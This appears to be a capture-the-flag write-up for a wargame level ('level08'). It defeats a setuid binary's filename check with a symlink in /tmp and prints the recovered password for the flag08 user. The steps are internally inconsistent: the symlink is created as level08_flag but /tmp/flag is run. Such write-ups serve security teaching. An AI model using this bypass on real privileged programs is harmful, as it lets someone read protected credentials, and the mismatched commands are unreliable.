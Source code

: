 # level08 solution
Given setuid elf and token file with no permissions to read it. We can run setuid binary with ltrace to get the idea of what it's doing:

    __libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
    strstr("token", "token")                                   = "token"
    printf("You may not access '%s'\n", "token"You may not access 'token'
    )               = 27
    exit(1 <unfinished ...>
    +++ exited (status 1) +++

This binary checks for presence of word token in provided path. We can bypass this check by simply creating symlink to this file with name that does not contain 'token' word:

    cd /tmp
    ln -s /home/user/level08/token level08_flag
    cd -

Then we can run program with provided symlink:

    ./level08 /tmp/flag
    quif5eloekouj29ke0vouxean

Token file contains password for flag08 user.
